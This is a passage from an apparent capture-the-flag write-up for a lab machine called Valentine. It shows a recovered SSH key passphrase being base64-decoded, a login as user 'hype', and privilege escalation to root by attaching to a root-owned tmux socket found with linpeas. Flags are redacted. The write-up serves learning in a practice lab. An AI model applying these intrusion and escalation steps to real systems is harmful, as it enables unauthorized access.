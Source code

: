 ```
From the output,we realize that we have an encoded text ```$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==}``` that seems to be base-64 encoded. We will first try to decode the text

```
┌──(kali㉿kali)-[~/Desktop]
└─$ echo -n "aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==" | base64 -d                  1 ⨯ 4 ⚙
heartbleedbelievethehype
```

The decoded text might be the passphrase for the private key. Let's try to SSH in with this passphrase.

```
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh -i id_rsa hype@10.10.10.79                                                  4 ⚙
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Fri Feb 16 14:50:29 2018 from 10.10.14.3
hype@Valentine:~$ 
```

### Obtaining user flag
Now, all we have to do is to find the user.txt and obtain the flag

```
hype@Valentine:~$ cd Desktop
hype@Valentine:~/Desktop$ ls
user.txt
hype@Valentine:~/Desktop$ cat user.txt
<Redacted user flag>
```

### Obtaining root flag

Now, we will use linpeas to discover potential vectors of privilege escalation. From the outputt, we discover that there is a tmux session that is current running, and this process is owned by root

```
╔══════════╣ Searching tmux sessions
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-shell-sessions       
                                                                                        
root       1034  0.0  0.1  26416  1676 ?        Ss   21:21   0:03 /usr/bin/tmux -S /.devs/dev_sess   
```

Looking at the bash history, we can also see that tmux command has been executed, and there is an existing session of ```dev_sess``` running. All we have to do is to simply 
attach a new tmux process to the existing process of ```dev_sess```, and we will obtain a root shell.

```
hype@Valentine:~/Desktop$ tmux -S /.devs/dev_sess
root@Valentine:/home/hype# cd /root
root@Valentine:~# ls
curl.sh  root.txt
root@Valentine:~# cat root.txt
<Redacted root flag>
root@Valentine:~#
```
